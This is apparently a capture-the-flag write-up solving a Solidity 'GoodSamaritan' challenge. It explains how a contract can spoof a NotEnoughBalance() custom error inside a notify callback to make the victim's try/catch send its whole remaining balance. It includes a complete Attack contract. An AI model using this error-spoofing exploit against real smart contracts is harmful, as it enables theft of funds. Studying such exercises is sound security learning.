 ## Description
At the first call wallet.donate10(msg.sender) we get to coin.transfer(dest_, 10); and from there we get to INotifyable(dest_).notify(amount_);. 
We need to get an error keccak256(abi.encodeWithSignature("NotEnoughBalance()")) to make a second call to the function - wallet.transferRemainder(msg.sender);. There should be no error when calling it again. 
It is convenient that the amount is passed to INotifyable and you can immediately determine when the error is needed and when it is not.
```
contract Attack{
    GoodSamaritan public goodSamaritan;

    error NotEnoughBalance();
    
    constructor(address payable _goodSamaritan){
        goodSamaritan = GoodSamaritan(_goodSamaritan);
    }

    function attack() public {
        goodSamaritan.requestDonation();
    }

    function notify(uint256 amount) public {
        if(amount == 10){
            revert NotEnoughBalance();
        }
        
    }

}
```
I've learned a little bit about try\catch in solidity and I'm kind of used to custom errors, since I haven't used them before.
![](try_catch.jpg)
